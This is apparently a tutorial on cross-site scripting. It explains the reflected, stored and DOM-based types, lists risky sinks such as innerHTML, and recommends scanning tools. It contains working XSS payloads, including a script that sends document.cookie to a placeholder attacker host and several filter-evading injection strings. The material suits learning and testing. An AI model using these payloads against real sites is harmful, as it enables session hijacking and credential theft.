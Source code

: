 
**Improve with:** 

**Cross-Site Scripting (XSS)** is a web vulnerability that allows an attacker to execute JavaScript code directly within a web application. This is dangerous because it can lead to various types of attacks such as session hijacking, stealing credentials, redirection to malicious sites, and executing actions on behalf of a victim.

There are three main types of XSS: **Reflected XSS**, **Stored XSS**, and **DOM-Based XSS**. While there are other variations, let’s focus on the core types.

### Reflected XSS

This is generally the least dangerous type of XSS, but it can still pose a real threat. It’s called _reflected_ because the payload is not stored on the server — instead, it’s reflected back in the response and executed when a victim clicks a crafted link.

Reflected XSS only works when triggered by the user, which means the attacker must deliver the payload (usually via a URL) to the victim. That’s why XSS in URLs can be particularly risky.

---
### Stored XSS

Stored XSS is the most severe type. In this case, the malicious code is saved on the server (e.g., in a database) and automatically delivered to users who view the affected content.

Imagine a basic website with a comment section. If the application doesn’t properly sanitize user input, an attacker can inject malicious JavaScript into a comment. This script will be stored and later executed when other users load the page, allowing the attacker to steal credentials, dump credit cards, hijack sessions, redirect users, and more.

---
### DOM-Based XSS

As the name suggests, DOM-Based XSS happens when the attack is triggered by how the application’s front-end JavaScript handles input. It usually involves manipulating the HTML DOM using user-controllable data.

Unlike reflected or stored XSS, this type happens entirely on the client-side — the malicious input never touches the server. It’s often found in cases where JavaScript functions like `document.write`, `innerHTML`, or `location.search` are used without validation.

```js
// Common vulnerable tags and JavaScript methods
document.write         // Writes raw HTML into the page — can trigger events like onload or onclick
location.search        // Retrieves URL parameters — injecting a payload can trigger JS execution
innerHTML              // Inserts HTML content — can lead to onload/onerror execution
```

---

```html
<!--SOME STORAGE PAYLOADS EXAMPLES-->
<script>
new Image().src = "http://malicious-site.com/steal?cookie=" + document.cookie
</script>

<svg otherEvents=1>
<img src=1 onerror="alert('Stored XSS')">
<iframe src="http://malicious.com/"></iframe>
```

```html
<!--SOME PAYLOADS EXAMPLES-->
<!--Basics-->
<svg onload="alert(1)">
<xss onload="javascript:confirm(2)"><xss>
nx"><svg/onload=alert(1)>
src="javascript:alert('xss')"/>
"><svg onload="console.log('look at the console!')">

<!--Out of box -->
xxx://14.rs
xxx//14.rs"></><body/onpageshow"
"><svg onload="alert(1)//"
sxc<</>ob</>je</>ct</>/data=//14.rs>
xxx"><object/data=//14.rs>
"><iframe src=javascript:alert("EASY-XSS");>.jsp
ssx"><srv/onload=alert`"SSX"`>x
```

---

Here are some great tools you can use when detecting or exploiting XSS vulnerabilities:
- **Burp Suite** – Especially useful with _Intruder_ and a good XSS payload wordlist.
- **Dalfox** – A powerful XSS scanning tool designed for automation and accuracy.
- **XSStrike** – An advanced XSS detection suite with fuzzing and payload crafting capabilities.
    
- **Recommended Wordlists:**
	- `/usr/share/wordlists/seclists/Fuzzing/XSS/human-friendly/` – Human-readable XSS payloads.
	- `/usr/share/wordlists/seclists/Fuzzing/XSS/robot-friendly/` – Payloads optimized for automated tools.
	- sudo apt install seclists -y - To install the infosec wordlists on kali linux
 

**Tips:** test use more then one tool, it can mitigate false positives or detect what other tool doesn't.



